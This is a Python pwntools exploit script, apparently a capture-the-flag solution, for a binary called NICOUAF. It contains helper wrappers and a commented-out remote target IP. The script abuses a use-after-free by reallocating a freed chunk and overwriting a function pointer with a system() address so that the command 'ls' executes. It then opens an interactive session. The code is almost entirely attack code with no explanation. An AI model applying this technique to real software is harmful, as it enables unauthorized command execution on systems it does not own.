

```
from pwn import*
from struct import pack
import ctypes
context(log_level = 'debug',arch = 'amd64')
p=process('./NICOUAF')
#p=remote('1.95.36.136',2130)
elf=ELF('./NICOUAF')
#libc=ELF('/root/glibc-all-in-one/libs/2.31-0ubuntu9.16_amd64/libc.so.6')
#libc=ELF('/root/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6')
def bug():
	gdb.attach(p)
	pause()
def s(a):
	p.send(a)
def sa(a,b):
	p.sendafter(a,b)
def sl(a):
	p.sendline(a)
def sla(a,b):
	p.sendlineafter(a,b)
def r(a):
	p.recv(a)
def pr(a):
	print(p.recv(a))
def rl(a):
	return p.recvuntil(a)
def inter():
	p.interactive()
def get_addr64():
	return u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))
def get_addr32():
	return u32(p.recvuntil("\xf7")[-4:])
def get_sb():
	return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__()
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

def add():
    rl(":")
    sl(str(1))


def edit(index,content):
    rl(":")
    sl(str(2))
    rl("Input page")
    sl(str(index))
    rl("Input your strings")
    sl(content)

def free(index):
    rl(":")
    sl(str(3))
    rl("Input page")
    sl(str(index))

def show(index):
    rl(":")
    sl(str(4))
    rl("Input page")
    sl(str(index))
system=0x80484e0
add()
free(0)
add()
edit(1,b'ls\x00\x00'+p32(system))
show(0)
inter()

```
